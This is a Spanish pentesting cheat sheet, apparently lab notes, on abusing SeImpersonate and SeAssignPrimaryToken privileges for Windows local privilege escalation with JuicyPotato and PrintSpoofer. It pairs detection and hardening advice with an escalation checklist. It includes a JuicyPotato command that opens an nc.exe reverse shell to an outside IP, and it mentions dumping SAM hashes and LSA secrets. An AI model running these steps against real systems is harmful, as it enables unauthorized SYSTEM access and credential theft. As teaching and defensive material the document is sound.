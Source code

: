 # SeImpersonate y SeAssignPrimaryToken


* Windows maneja *tokens* de acceso (Access Tokens) que describen el contexto de seguridad de un proceso (SIDs, grupos, privilegios, etc.).
* **SeImpersonatePrivilege** permite a un proceso **impersonar** (tomar el contexto de) otro usuario después de que ese usuario se haya autenticado.
* **SeAssignPrimaryTokenPrivilege** permite **asignar o crear un token primario** para un proceso (CreateProcessAsUser-like), y es más poderoso y restringido.
* Ambos privilegios son potentes porque permiten escalar privilegios localmente: e.g., transformar un proceso con privilegios de servicio en uno con contexto `NT AUTHORITY\SYSTEM`.
* Ataques clásicos: **JuicyPotato**, **RoguePotato**, **PrintSpoofer** — abusan de servicios localmente ejecutándose como SYSTEM que conectan a un objeto RPC/COM y permiten la exfiltración/uso del token.

---

## Conceptos clave

* **Token de acceso (Access Token):** estructura en memoria que contiene identidad del usuario (SID), grupos, privilegios y lista de restricción.
* **Impersonation vs Primary Token:**

  * *Impersonation token* — usado por un thread para actuar como cliente; no siempre puede crear procesos.
  * *Primary token* — token asignado a un proceso, permite crear procesos con ese contexto.
* **SeImpersonatePrivilege:** concede la capacidad de `Impersonate a client after authentication`.
* **SeAssignPrimaryTokenPrivilege:** concede la capacidad de `Replace a process level token` (crear/colocar tokens primarios).
* **CreateProcessWithTokenW** y **CreateProcessAsUser** son APIs que requieren distintos privilegios: CreateProcessWithTokenW necesita token válido y el llamador debe poder usarlo (normalmente SeImpersonate puede ser suficiente en combinaciones con técnicas de token stealing); CreateProcessAsUser requiere SeAssignPrimaryToken.

---

## ¿Por qué son críticos en pentesting?

* Muchos servicios (IIS, SQL Server, servicios Windows, spooler) corren con cuentas de servicio que tienen **SeImpersonate** o **SeAssignPrimaryToken** habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (ej. `nt service\mssql$sqlexpress01`, `iis apppool\defaultapppool`), podés comprobar inmediatamente si el servicio tiene dichas privilegios y, si es positivo, intentar escalada rápida a `SYSTEM`.
* Estas escaladas son fáciles y rápidas: pocos comandos y herramientas públicas (JuicyPotato, PrintSpoofer).

---

## Flujo típico de explotación (alto nivel)

1. Obtención de RCE en contexto de servicio no-SYSTEM (ej. shell vía `xp_cmdshell`, web shell en IIS, Jenkins RCE).
2. Ejecutar `whoami /priv` o PowerShell para listar privilegios.
3. Si aparece `SeImpersonatePrivilege` (Enabled) o `SeAssignPrimaryTokenPrivilege` → preparar exploit (JuicyPotato/PrintSpoofer).
4. Subir ejecutable de explotación (JuicyPotato.exe / PrintSpoofer.exe) + binarios auxiliares (nc.exe o reverse shell payload).
5. Ejecutar exploit apuntando a COM server id / listening port apropiado.
6. Si tiene éxito, obtendrás un proceso con token `NT AUTHORITY\SYSTEM` (shell remoto) o CreateProcessAsUser OK.

---

## Ejemplo práctico (resumen de pasos usados en labs)

* Comprobar privilegios:

  ```powershell
  whoami /priv
  # o en PowerShell
  Get-Process -Id $PID | ForEach-Object { [Security.Principal.WindowsIdentity]::GetCurrent().Groups }
  ```
* Descargar y ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```
* Resultado esperado: `CreateProcessWithTokenW OK` y conexión reversa con `NT AUTHORITY\SYSTEM`.

> Nota: Ubicaciones y flags varían según la herramienta y la versión de Windows. JuicyPotato deja de funcionar en versiones recientes; PrintSpoofer o RoguePotato pueden funcionar en builds más nuevas.

---

## Artefactos y pistas de detección (logs/telemetría)

* **Eventos de seguridad**:

  * 4624/4634: logons (especialmente por servicios y SYSTEM).
  * 4688: proceso creado (buscar procesos inusuales lanzados por servicios: cmd.exe, powershell.exe, nc.exe, rundll32.exe desde servicios).
* **Sysmon (recomendado)**:

  * EventID 1 (Process Create): observar procesos hijo de servicios (svchost, sqlservr.exe, w3wp.exe) que lancen cmd.exe/powershell.
  * EventID 11/12/7: actividad en archivos subidos.
  * EventID 3 (Network) y 10 (ProcessAccess) para rastrear acceso entre procesos.
* **EPP/EDR**: creación de procesos con tokens differentes o llamadas a CreateProcessWithTokenW pueden disparar firmas.
* **Named pipes / COM bindings**: herramientas Potato crean listeners (named pipes / RPC endpoints) — revisá conexiones IPC y registros de server COM.

---

## Comprobaciones y hunting (quick wins)

* Desde una shell con permisos: `whoami /priv`.
* Listar privilegios en objetos y servicios: `sc qc <servicename>`, revisar `Log On As`.
* Buscar cuentas con SeImpersonate habilitado (PowerShell):

  ```powershell
  # Requires AD / local audit scripts; para local: dump privileges with ntdsutil or tools como AccessChk
  accesschk.exe -k *  # muestra privilegios en cuentas/servicios (sysinternals accesschk)
  ```
* En entorno AD, buscar GPOs o hardening que remuevan SeImpersonate de grupos no necesarios.

---

## Mitigaciones y hardening

* **Eliminar SeImpersonate y SeAssignPrimaryToken** de cuentas que no lo necesitan (Local Security Policy -> User Rights Assignment) o mediante GPO.
* **Principio de menor privilegio**: los servicios no deberían ejecutarse con cuentas que necesiten esos privilegios.
* **Segregar servicios**: evitar usar cuentas con amplios derechos en servicios accesibles por usuarios/clients.
* **Harden LSASS/Protecciones**: PPL, Credential Guard en entornos soportados.
* **EDR / Sysmon**: monitorizar creación inusual de procesos y llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser).
* **Aplicar Application Whitelisting** y control de ejecución en servidores críticos.

---

## 9. Checklist cuando se encuentra RCE en servicio

1. `whoami /priv` — ¿SeImpersonate o SeAssignPrimaryToken aparecen?
2. Subir JuicyPotato/PrintSpoofer (o usar versiones publicadas) a ruta temporal.
3. Ejecutar con parámetros apropiados (puerto COM/CLSID, payload).
4. Si falla, probar alternativas (PrintSpoofer, RoguePotato, distintos CLSIDs).
5. Si obtienes SYSTEM, recolectar evidencia y continuar post-exploitation con cuidado (hashes SAM, LSA secrets si aplica).
6. Documentar y reportar: qué cuenta tenía el privilegio, cómo se explotó, recomendaciones de mitigación.

---

## Recursos recomendados

* Artículos técnicas sobre JuicyPotato, PrintSpoofer, RoguePotato y token impersonation.
* Documentación Microsoft sobre tokens y privilegios (Token, CreateProcessWithTokenW, CreateProcessAsUser).



*Pista: usa este lienzo como guía rápida en tus laboratorios. Para cada objetivo real, adapta los comandos y asegúrate de trabajar siempre en entornos autorizados y aislados.*
